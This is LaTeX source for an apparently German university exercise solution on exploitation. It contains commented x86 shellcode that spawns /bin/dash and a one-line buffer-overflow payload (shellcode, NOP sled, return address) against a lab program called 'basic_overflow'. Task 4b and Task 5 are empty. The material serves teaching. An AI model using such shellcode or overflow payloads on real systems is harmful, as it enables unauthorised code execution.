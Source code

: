 \documentclass[]{scrreprt}
\begin{document}
	\section*{Aufgabe 3: Shellcode}
	\begin{lstlisting}[frame=single, caption = kommentierter Maschinencode, captionpos = b]
global _start

_start:
;----------------------------------
; TODO
; Your shellcode spawning /bin/dash goes here
xor eax, eax 	;eax leeren
push eax 	;0-Byte in den Stack geben
push 68736164h 	;Dash auf den Stack pushen
push 2f2f2f2fh 	;4 ''/'' als Padding
push 6e69622fh 	;''bin'' auf stack pushen
mov ebx, esp 	;2. Parameter des syscalls (Pointer auf Stack)
mov al, 0xb	;1. Parameter des syscalls (execv)
int 0x80	;interrupt: syscall

; ------------ End of file ------------ 
		
	\end{lstlisting}
	\section*{Aufgabe 4: Stack-Based Buffer Overflow}
	\subsection*{a)}
	Das Programm ''basic\_overflow'' muss folgendermaßen in der Shell eingegeben werden:
	\begin{lstlisting}[frame=single, caption="Skript für Aufgabe 4a) (Code entspricht einer Zeile!), captionpos=b"]
./basic_overflow \$(python -c 'print "\x31\xc9\xf7\xe1\x51
\x68\x64\x61\x73\x68\x68\x2f\x2f\x2f\x2f\x68\x2f\x62\x69\x6e
\x89\xe3\xb0\x0b\xcd\x80" + "\x90"*86 + "\x4c\xcf\xff\xff"')
	\end{lstlisting}
	
	Dabei ist das \$-Zeichen zu beachten, welches eine Subshell aufruft, womit man in einem Shellbefehl einen weiteren Befehl ausführen kann.
	Die Angabe ist hier in Little-Endian. Der erste Teil ist der Shellcode (von $\backslash$x31 bis zum ersten +) danach kommt das NOP-Padding. Nach dem Padding kommt die Return-Adresse, welches das Programm ausgibt. Hier wurde der Shellcode etwas umgeformt.
	\subsection*{b)}
	\texttt{---}
	\pagebreak
	\section*{Aufgabe 5:  Smashing the Stack for Fun and Exam Prep}
\end{document}
